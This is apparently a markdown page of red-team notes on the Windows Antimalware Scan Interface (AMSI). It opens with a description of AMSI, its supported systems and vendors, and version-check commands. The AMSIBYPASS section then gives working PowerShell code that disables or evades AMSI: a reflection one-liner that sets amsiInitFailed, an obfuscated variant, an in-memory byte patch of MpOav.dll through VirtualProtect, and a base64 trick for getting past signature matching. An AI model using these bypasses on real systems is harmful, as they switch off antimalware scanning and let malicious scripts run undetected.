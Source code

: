 # AMSI (Anti-Malware Scanning Interface)


Languages
-- -
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)


![dotnet](./images/dotnet.jpeg)

AMSI
-- -

Introduced in June 2015.

The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.  

AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.

The AMSI feature is integrated into these components of `Windows 10`:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell `v5` (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic 
- Office365 (JavaScript/VBA)  
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - ***NEW***

> **Runtime – Antimalware Scanning for All Assemblies** : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.

[https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)

.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.

In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:

- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher

[https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)

>Runtime – Antimalware Scanning for All Assemblies
>In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
>
>.NET Framework 4.8 (released April 18th on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
>
>**LINK** : [https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)
>
>**LINK** : [https://en.wikipedia.org/wiki/.NET_Framework_version_history](https://en.wikipedia.org/wiki/.NET_Framework_version_history)

![image](./images/amsi7archi.jpg)

Supported OS
---
- Windows 10 PRO/ENTERPRISE and Windows Server 2016
- Windows Server 2019

Supported 3rd party Antivirus/EDR vendors
---
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0 
- Sophos
- Symantec (v14.3 and later)

**LINK** : [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)


To check which version of .net and the CLR is installed open a powershell prompt and type the following:

```code
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version
```

![image](./images/dotnetversion.jpg)

Check Powershell installed on the system:

```yaml
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
```

AMSITEST
---

```yaml
It '"Antimalware Scan Interface" is working' {
    # AMSI test string 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
    # (in the following as an obfuscated string)
    # must throw an error if executed (blocked by AMSI)
    $TestString = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $Bytes = [Convert]::FromBase64String($TestString)
    $String = -join ($bytes | ForEach-Object { [char]($_ -bxor 0x33)})
    { Invoke-Expression -Command $String } | Should Throw
}
```

AMSIBYPASS
---

Works on 1803 and before

> This bypass does not require administrator rights!!!

```yaml
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic, Static').SetValue($null,$true)
```

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```

----

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patch-the-providers-DLL-of-Microsoft-MpOav.dll

```powershell
$APIs = @"
using System;
using System.Runtime.InteropServices;
public class APIs {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr ekwiam, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $APIs

$wzys = "0xB8"
$coxo = "0x57"
$hxuu = "0x00"
$eqhh = "0x07"
$paej = "0x80"
$ppiy = "0xC3"
$Patch = [Byte[]] ($wzys,$coxo,$hxuu,$eqhh,+$paej,+$ppiy)

$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls')
$Uninitialize = $object.GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null) 
```

https://youtu.be/QO_1UMaiWHk?si=C__eVWkAyj2jsBo-&t=6403

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![image](./images/amsi_caught.jpg)

Let's base64 encode some strings

String1 = System.Management.Automation.AmsiUtils
String2 = amsiInitFailed

```powershell
$b64String1 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("System.Management.Automation.AmsiUtils"))
$b64String2 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("amsiInitFailed"))
```

> ***String1 =>*** "UwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzAA=="
> ***String2 =>*** "YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=="

![image](./images/amsi_b64.jpg)

Now let's write the script used the b64 encoded strings and decode them into a new set of cleartext strings, and then run our command using the strings instead of the cleartext strings that are on the "Dirty words" list of AMSI.

```powershell
$b64String1 = "UwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzAA=="
$b64string2 = "YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=="
$string1 = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($b64String1))
$String2 = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($b64String2))
[Ref].Assembly.GetType($string1).GetField($string2,'NonPublic,Static').SetValue($null,$true)
```
